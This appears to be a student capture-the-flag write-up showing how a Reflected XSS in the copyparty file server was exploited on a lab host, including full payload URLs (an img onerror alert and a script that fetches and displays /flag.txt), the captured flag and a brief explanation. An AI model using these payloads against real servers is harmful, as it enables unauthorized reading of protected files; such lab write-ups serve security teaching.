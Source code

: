 # CTF Semana #7 (XSS)

## Accessing the Website
1. We navigated to the provided address:
   > [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:5007)
2. Used **Google Chrome** (the exploit does not work on Firefox).
3. We explore the site's functionalities as a regular user.

---

## Searching for Known Vulnerabilities
1. We searched for information about vulnerabilities related to the service.
2. Used the following search term in Google:
   > `copyparty cve xss`
3. And found an exploit published on [Exploit Database](https://www.exploit-db.com/exploits/51635), describing a **Reflected XSS** vulnerability.

---

## Testing the Exploit
1. The original exploit triggers an alert with the following URL:

```html
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

2. We adapted the exploit to the challenge's server address:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

3. Upon loading this link in the browser, an alert appeared, confirming the site is vulnerable to **Reflected XSS**.

---

## 4. Modifying the Exploit to Retrieve the Flag
We replaced the alert code with a script to fetch the protected `flag.txt` file and display its content in an alert.

Adapted code:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cscript%3Efetch('/flag.txt').then(response%20=%3E%20response.text()).then(data%20=%3E%20alert(data))%3C/script%3E
```

We pasted the link above into the browser and it loaded the page, and the script was executed.
The flag content appeared in an alert.


The retrieved flag is:

flag{youGotMeReallyGood}


# Analysis

## Why couldn't the flag be accessed directly?
The flag.txt file was protected from direct access. The server restricted access to this file through internal methods only.

## What vulnerability was exploited?
This attack exploited a Reflected XSS vulnerability. The server failed to properly validate or sanitize user input in the URL, allowing the injection and execution of malicious JavaScript code.

